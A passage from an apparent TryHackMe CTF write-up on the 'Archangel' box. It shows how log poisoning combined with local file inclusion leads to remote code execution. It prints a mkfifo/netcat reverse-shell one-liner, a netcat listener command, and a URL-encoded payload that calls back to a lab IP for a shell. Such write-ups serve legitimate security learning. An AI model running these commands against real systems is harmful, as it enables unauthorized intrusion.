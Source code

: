 ![RCE Successful](/img/posts/thm-archangel/log_poison_success.png)  

Success!  

Due to server running Apache and executing php code & our abbility to LFI - now we have working RCE.  

To get a reverse shell we can use the following code:  

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc IP PORT >/tmp/f
```

After this, the next in line is setting up a netcat listener:  

```bash
sudo nc -nlvp 80
```

Now we only have to make sure to URL encode the reverse shell request in Burp with CRTL+U. It should look like this:  

```
....&cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|sh+-i+2>%261|nc+10.9.83.183+80+>/tmp/f
```

![RCE Successful](/img/posts/thm-archangel/log_poison_success.png)  

After sending the request we get a reverse shell as **www-data** :  

![Shell](/img/posts/thm-archangel/shell.png)  
